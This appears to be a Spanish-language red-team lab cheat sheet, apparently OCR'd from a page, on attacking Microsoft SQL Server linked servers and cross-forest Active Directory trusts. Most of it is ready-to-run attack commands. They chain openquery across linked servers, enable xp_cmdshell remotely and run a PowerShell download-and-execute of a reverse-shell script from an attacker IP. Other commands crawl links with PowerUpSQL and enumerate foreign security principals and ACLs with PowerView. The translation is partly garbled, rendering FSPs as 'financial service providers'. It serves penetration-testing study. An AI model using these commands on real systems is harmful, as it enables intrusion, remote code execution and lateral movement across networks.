 We can manually enumerate linked servers

`select * from master..sysservers`

La función Openquery se puede utilizar para ejecutar consultas en una base de datos vinculada

`select * from openquery("192.168.23.25",'select * from master..sysservers')`

Las consultas de Openquery se pueden encadenar para acceder a enlaces dentro de enlaces (enlaces anidados)

`select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')`

Executing Commands

En el servidor de destino, xp_cmdshell ya debería estar habilitado, Si rpcout está habilitado (deshabilitado de forma predeterminada), xp_cmdshell se puede habilitar usando:

`EXECUTE('sp_configure''xp_cmdshell'',1;reconfigure;') AT "db-sqlsrv"`

Desde el servidor SQL inicial, los comandos del sistema operativo se pueden ejecutar mediante consultas de enlace anidadas:

`select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/Invoke-PowerShellTcp.ps1'''')"'')')`

Abusing Database Links

Rastrear enlaces a servidores remotos

`Get-SQLServerLinkCrawl -Instance usmssql.us.techcorp.local`

Abusar de enlaces a servidores remotos (intenta usar xp_cmdshell en cada eslabón de la cadena):

`Get-SQLServerLinkCrawl -Instance usmssql.us.techcorp.local -Query 'exec master..xp_cmdshell ''whoami'''`

**Cross Forest Attacks - Foreign Security Principals**

- Una entidad de seguridad externa (FSP) representa una entidad de seguridad en un trust de bosque externo o identidades especiales (como usuarios autenticados, CD de empresas, etc.).
- Solo el SID de un FSP se almacena en el contenedor principal de seguridad externa que se puede resolver mediante la relación de confianza.
- FSP permite que los principales externos se agreguen a los grupos de seguridad locales del dominio. Por lo tanto, permitir que dichos directores accedan a los recursos del bosque.
- A menudo, los proveedores de servicios financieros se ignoran, están mal configurados o son demasiado complejos para cambiarlos o limpiarlos en una empresa, lo que los hace propicios para el abuso.
- Enumeremos los FSP para el dominio db.local usando el shell inverso que tenemos allí.
• PowerView:
`Find-ForeignGroup -Verbose
Find-ForeignUser -Verbose`
• Utilizando el módulo ActiveDirectory:
`Get-ADObject -Filter {objectClass -eq "ForeignSecurityPrincipal"}`

**Cross Forest Attacks - ACLs**

- El acceso a los recursos en un trust forestal también se puede proporcionar sin utilizar FSP que utilicen ACL.
- Los principales agregados a las ACL NO aparecen en el contenedor ForeignSecurityPrinicpals, ya que el contenedor se llena solo cuando se agrega un principal a un grupo de seguridad local de dominio.
- Enumeremos las ACL para el dominio dbvendor.local usando el shell inverso que tenemos en db.local:
`Find-InterestingDomainAcl -Domain dbvendor.loca`
